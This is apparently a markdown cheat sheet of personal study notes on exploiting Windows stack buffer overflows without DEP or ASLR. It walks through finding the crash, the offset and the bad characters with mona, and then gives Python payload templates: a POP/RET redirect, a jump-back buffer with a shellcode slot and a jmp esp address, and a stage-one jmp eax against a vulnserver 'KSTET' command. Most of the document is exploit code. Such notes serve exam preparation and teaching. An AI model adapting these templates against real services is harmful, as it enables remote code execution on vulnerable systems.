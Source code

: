 # Stack Buffer Overflow (no DEP, no ASLR)

## Step
1. Find initial crash
2. Find offset with:
```py
!py mona pc XXX 
```
3. Find badchar:

```py
bad_chars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
bad_chars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
bad_chars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
bad_chars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
bad_chars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
bad_chars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
bad_chars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
bad_chars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

4. Exploit:

	1. Is there a lot of space? 
	```py
	!py mona jmp -r esp -cpb '\x00' 
	```
	2. There isn't space?
		
		1.  Try with POP 32; RET and you will point to the Cs
		
		```py
		httpMethod = b"C" * 8 +  b" /" 
		inputBuffer = b"A" * 253 
		inputBuffer += pack("<I",0x00418674) #00418674 pop eax; ret
		httpEndRequest = b"\r\n\r\n" 
		```
		
		2. Try with Jump back
		
		```py
		buffer = b"\x90"*1672
		sub_esp = b"\x83\xEC\x64\x90" * 5 #ESP - 500, (sub esp 100*5)
		buffer += sub_esp
		buffer += shellcode
		buffer += b"\x90"*(388-len(shellcode))
		buffer += pack("<I", 0x1480113d) # : jmp esp 1480113d
		buffer += b"\x90"*3
		buffer += b"\xe9\x07\xfe\xff\xff" #jmp -500 E907FEFFFF
		buffer += b"D"* (total - len(buffer))
		```
		
		3. Look to the other registers. Are there any other near the payload?
		
		```py
		VULNSRVR_CMD = b"KSTET "  # change me
		size = 132  # change me

		stage_one  = b"\x83\xc0\x06"   # add eax,byte +0x6
		stage_one += b"\xff\xe0"  # jmp eax

		payload = VULNSRVR_CMD
		payload += b"A"*70
		payload += struct.pack("<I",0x62501203) #jmp esp 62501203
		payload += b"\x90" * 4
		payload += stage_one
		payload += b"C"*(size-len(payload))
		```

## Resources
1. https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
2. https://epi052.gitlab.io/notes-to-self/blog/2020-05-13-osce-exam-practice-part-one/
3. https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/
4. https://www.bordergate.co.uk/dealing-with-small-buffer-space/
